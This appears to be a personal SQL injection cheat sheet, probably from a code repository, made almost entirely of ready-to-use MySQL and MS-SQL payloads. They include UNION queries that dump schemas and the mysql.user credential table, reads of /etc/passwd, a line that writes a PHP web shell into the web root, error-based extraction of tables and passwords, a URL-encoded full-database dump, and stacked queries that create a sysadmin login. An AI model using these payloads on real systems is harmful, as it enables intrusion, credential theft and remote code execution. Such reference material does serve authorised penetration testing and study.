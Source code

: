 ## MySQL
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
### Union
```
1+1
hex(1)
-1 group by 12
-1 union select "1","2","3"
-1 union select "1",(select @@version),"3"
-1 union select "1",(select SCHEMA_NAME from Information_Schema.SCHEMATA LIMIT 0,1),"3"
-1 union select "1",(select group_concat(SCHEMA_NAME,":") from Information_Schema.SCHEMATA), "3"
-1 union select "1",(select group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n") from Information_Schema.COLUMNS where TABLE_SCHEMA='hotel'), "3"
-1 union select "1",(select group_concat(host,":",user,":",password,"\r\n") from mysql.user),"3"
-1 union select "1",(LOAD_FILE("/etc/passwd")),"3"
-1 union select "1",(TO_base64(LOAD_FILE("/etc/passwd"))),"3"
-1 union select "1",(select "<?php exec($_GET['cmd']); ?>"), "3" INTO OUTFILE '/var/www/html/cmd.php'
```
### Bypass space
```
/**/
```

### Error based
Find version, user, database
```
-1 AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y);--+
```
Find schema, tables, columns, data
```

```

### Stack and time-based
```
asdf'; WAITFOR DELAY '0:0:10'--
```

## MS-SQL
https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/
### Adduser
```
EXEC sp_addlogin 'quang', 'pass'; 
exec sys.sp_addsrvrolemember @loginame=N'quang', @rolename = N'sysadmin' ;-- -
```

### Error-based
Find database, user, version
```
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,@@version);-- -
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,DB_NAME(1));-- -
```
Dump all into a table?
http://securityidiots.com/Web-Pentest/SQL-Injection/mssql/mssql-dios.html
```
as');BEGIN%20DECLARE%20@data%20VARCHAR%288000%29,%20@counter%20int,%20@tblName%20VARCHAR%2850%29,%20@colNames%20VARCHAR%28100%29%20DECLARE%20@tmpTbl%20TABLE%20%28name%20VARCHAR%288000%29%20NOT%20NULL%29%20SET%20@counter%20%3d%201%20SET%20@data%3d%27a%27%2bchar%2810%29%2b%27Injected%20by%20Zen%20::%20%27%2b%27char%2810%29%27%2b@@version%2b%27Database%20::%20%27%2bdb_name%28%29%2bchar%2810%29%2bchar%2810%29%20SET%20@tblName%20%3d%20%27%27%20SET%20@colNames%20%3d%20%27%27%20WHILE%20@counter%3C%3d%28SELECT%20COUNT%28table_name%29%20FROM%20INFORMATION_SCHEMA.TABLES%29%20BEGIN%20SET%20@colNames%20%3d%20%27%27%20SELECT%20@tblName%20%3d%20table_name%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20TABLE_NAME%20NOT%20IN%20%28select%20name%20from%20@tmpTbl%29%20SELECT%20@colNames%20%3d%20@colNames%20%2b%27%20:%20%27%2bcolumn_name%20%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME%20%3d%20@tblName%20INSERT%20@tmpTbl%20VALUES%28@tblName%29%20SET%20@data%3d@data%2b%27Table%20:%20%27%2b@tblName%2bchar%2810%29%2b%27Columns%20:%27%2b@colNames%2bchar%2810%29%20SET%20@counter%20%3d%20@counter%20%2b%201%20END%20SELECT%20@data%20AS%20output%20INTO%20err_dios%20END--
```
List tables
```
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 name FROM (SELECT DISTINCT top 1 name FROM archive..sysobjects where xtype='U' ORDER BY name ASC) sq ORDER BY name DESC)+CHAR(58)))--
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,(select string_agg(name,':') from archive..sysobjects where xtype='U'))--
```
List columns
```
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,(select string_agg(archive..syscolumns.name,':') from archive..syscolumns, archive..sysobjects where archive..syscolumns.id=archive..sysobjects.id and archive..sysobjects.name='pmanager'))--
```
Get data
```
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,(select string_agg(concat(psw,' ',id,' ',alogin),':') from archive.dbo.pmanager))--
```
